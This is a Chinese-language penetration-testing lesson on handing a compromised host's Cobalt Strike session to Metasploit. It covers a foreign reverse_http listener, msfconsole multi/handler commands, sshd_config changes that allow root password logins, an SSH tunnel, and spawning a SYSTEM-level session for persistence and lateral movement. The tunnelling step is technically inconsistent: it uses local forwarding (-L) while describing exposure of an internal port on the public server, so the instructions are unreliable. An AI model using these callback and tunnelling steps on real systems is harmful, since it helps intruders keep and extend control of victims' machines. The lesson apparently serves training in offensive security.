# 网络安全系统教程：P31：CS联动MSF之外部监听器 🛠️







在本节课中，我们将学习如何将Cobalt Strike（CS）中已上线的会话（Session）转发给Metasploit（MSF），从而利用MSF更强大的功能进行后续渗透操作。核心在于配置外部监听器（External Listener）并建立SSH隧道实现端口转发。



## 概述





上一节我们介绍了CS的基本监听器。本节中我们来看看如何配置一个特殊的外部监听器，将CS控制的内网主机会话，安全地转发到位于另一网络环境（如内网）的Metasploit框架中，实现工具的联动。





## 核心原理与配置步骤



整个流程的核心是：在CS服务器上创建一个指向MSF所在机器的外部监听器，并通过SSH隧道打通两者间的网络障碍，最后在CS界面中“嫁接”（Spawn）会话到该监听器。







以下是实现此操作的具体步骤。





### 第一步：在Cobalt Strike中创建外部监听器



首先，我们需要在Cobalt Strike团队服务器上设置一个特殊的监听器。







1.  在Cobalt Strike客户端，导航至 `Cobalt Strike` -> `Listeners`。
2.  点击 `Add` 按钮创建新监听器。
3.  设置 `Name`，例如 `MSF_Link`。
4.  关键步骤：在 `Payload` 下拉菜单中选择 `windows/foreign/reverse_http`（CS 4.0版本）或类似的外部（foreign）Payload。
5.  在配置框中，需要填写两个参数：
    *   `Host`: 填写**Metasploit所在机器（接收端）的IP地址**。例如，如果MSF在IP为 `192.168.1.100` 的内网机器上运行，则填写此IP。
    *   `Port`: 设置一个监听端口，例如 `7777`。
6.  点击 `Save`，外部监听器创建完成。此时，CS服务器会等待向指定的 `Host:Port` 发起连接。

**核心概念**：外部监听器（Foreign Listener）的Payload (`windows/foreign/reverse_http`) 其作用是**指示被控主机去连接一个非CS本身的地址**，这里是我们的Metasploit服务。



### 第二步：在Metasploit中配置对应的处理模块

接下来，在接收端（运行MSF的机器，如Kali Linux）上，我们需要启动一个处理程序来接收来自CS的会话。

1.  启动 `msfconsole`。
2.  使用 `exploit/multi/handler` 模块。
    ```bash
    use exploit/multi/handler
    ```
3.  设置与CS外部监听器**匹配的Payload**。
    ```bash
    set payload windows/meterpreter/reverse_http
    ```
    > **注意**：Payload类型必须对应。CS用 `reverse_http`，MSF也需用 `reverse_http`。
4.  配置Payload选项：
    *   `LHOST`: 设置为**MSF本机（接收端）的IP地址**，即上一步在CS中填写的 `Host`（如 `192.168.1.100`）。
    *   `LPORT`: 设置为与CS外部监听器**一致的端口**（如 `7777`）。
    ```bash
    set LHOST 192.168.1.100
    set LPORT 7777
    ```
5.  运行监听。
    ```bash
    run -j
    ```
    执行后，Metasploit开始在 `192.168.1.100:7777` 上监听连接。



### 第三步：建立SSH隧道进行端口转发



通常，CS服务器位于公网，而运行MSF的接收端位于内网。公网无法直接访问内网地址。因此，我们需要通过SSH隧道，将CS服务器上的监听端口“映射”到公网，使得CS能成功连接到MSF。



此步骤在**MSF所在的内网机器**上执行。

1.  确保CS服务器（VPS）的SSH服务已开启端口转发功能。编辑 `/etc/ssh/sshd_config` 文件，确保包含以下行：
    ```
    GatewayPorts yes
    TCPKeepAlive yes
    PasswordAuthentication yes
    ```
    修改后重启SSH服务：`systemctl restart sshd`。
2.  在MSF机器上，执行SSH隧道命令：
    ```bash
    ssh -C -f -N -g -L 0.0.0.0:7777:127.0.0.1:7777 root@<CS服务器公网IP> -p 22
    ```
    *   `-L 0.0.0.0:7777:127.0.0.1:7777`: 将本地所有接口的7777端口，通过隧道转发到CS服务器本地的7777端口。
    *   `root@<CS服务器公网IP>`: 你的CS团队服务器的登录凭证。
    *   执行后会提示输入CS服务器的root密码。
3.  验证隧道是否建立：
    ```bash
    netstat -tlnp | grep 7777
    ```
    应能看到 `0.0.0.0:7777` 的监听信息。



**核心概念**：SSH隧道 (`-L`) 在此处的作用是**将公网IP的某个端口流量，安全地转发到内网机器的指定端口**，从而绕过网络隔离。





### 第四步：在Cobalt Strike中嫁接会话

所有配置完成后，即可将CS中的会话转移到Metasploit。



1.  在Cobalt Strike的 `Views` -> `Sessions` 中，选中一个已上线的会话（例如具有 `SYSTEM` 权限的会话）。
2.  右键点击该会话，选择 `Spawn`。
3.  在弹出的监听器列表中，选择刚才创建的**外部监听器**（如 `MSF_Link`）。
4.  点击 `Choose`。

### 第五步：在Metasploit中接收会话





切换回Metasploit控制台，稍等片刻。如果一切配置正确，你将看到类似下面的提示，表示已成功接收到一个Meterpreter会话：

```
[*] http://192.168.1.100:7777 handling request from 203.0.113.5; (UUID: abc123) Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.100:7777 -> 203.0.113.5:65432)
```





现在，你可以使用 `sessions -i 1` 与该会话交互，利用Metasploit的全部功能进行后续操作，如信息收集、权限维持、横向移动等。

## 流程总结与注意事项



本节课中我们一起学习了CS与MSF联动的完整流程。关键在于理解“外部监听器”的指向性，以及SSH隧道在打通网络障碍中的作用。



**总结流程**：
1.  **CS端**：创建指向MSF IP和端口的外部监听器。
2.  **MSF端**：启动对应Payload的handler，监听相同端口。
3.  **网络打通**：在MSF端建立SSH隧道，将CS服务器的端口流量转发到本地。
4.  **会话迁移**：在CS中Spawn会话到外部监听器。
5.  **会话接收**：在MSF中获取Meterpreter会话。



**常见问题与注意点**：
*   **网络不通**：确保防火墙、安全组规则允许相关端口（SSH的22端口，监听的7777端口等）通行。
*   **Payload不匹配**：CS的外部监听器Payload必须与MSF中设置的Payload严格对应（如都是`reverse_http`）。
*   **隧道失败**：检查SSH命令参数是否正确，确认CS服务器的`sshd_config`已允许端口转发。
*   **权限问题**：嫁接会话时，选择的CS会话权限决定了转移到MSF后的权限。通常建议使用高权限（如SYSTEM）会话进行嫁接。

通过掌握CS与MSF的联动，你可以灵活结合两款工具的优势，CS用于稳定的初始突破和会话管理，MSF用于丰富的后期利用模块，从而提升渗透测试的效率与深度。